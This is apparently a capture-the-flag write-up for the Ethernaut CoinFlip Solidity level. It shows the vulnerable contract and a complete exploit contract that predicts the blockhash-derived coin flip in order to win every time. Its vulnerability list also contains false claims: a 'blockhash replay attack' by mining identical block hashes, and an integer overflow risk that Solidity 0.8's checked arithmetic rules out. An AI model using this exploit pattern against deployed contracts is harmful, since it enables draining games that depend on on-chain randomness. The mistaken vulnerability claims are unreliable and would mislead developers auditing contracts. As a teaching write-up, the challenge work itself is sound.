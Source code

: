### TASK
The task is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Gas Golfering
The FACTOR state variable could be declared as constant to save gas. 

```solidity
uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

### Code Vunerability
The CoinFlip contract is vulnerable to: <br/>

Blockhash Replay Attack: An attacker can replay the same blockhash value by mining two/more blocks with the same blockhash value, which would allow them to always win the coin flip.
<br/>
Integer Overflow/Underflow: The consecutiveWins variable is not protected against integer overflow/underflow, which could result in unexpected behavior.
<br/>
Everything on the blockchain is public and all variables, including state variables, can be read by anyone. So, lastHash and FACTOR should not be considered private.

```solidity
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

There is no real native randomness in the blockchain and all randomness is pseudo-random, generated by the block hashes. So, it's important to use a secure random number generator to avoid predictable outcomes.

#### Hack the contract

```solidity
contract HackCoinFlip{
    CoinFlip immutable coinflipContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor ( CoinFlip _coinflipContract){
        coinflipContract = CoinFlip(_coinflipContract);
    }

    //call this function 10 times
    function guessValue() external {
          uint256 blockValue = uint256(blockhash(block.number - 1));
          uint256 coinFlip = uint256(blockValue / FACTOR);
          bool side = coinFlip == 1 ? true : false;
          
          coinflipContract.flip(side);
    }
}

```

Link to Exploit contract: https://github.com/Sayrarh/Ethernaut-Challenge-with-Foundry/blob/master/test/CoinFlip.t.sol
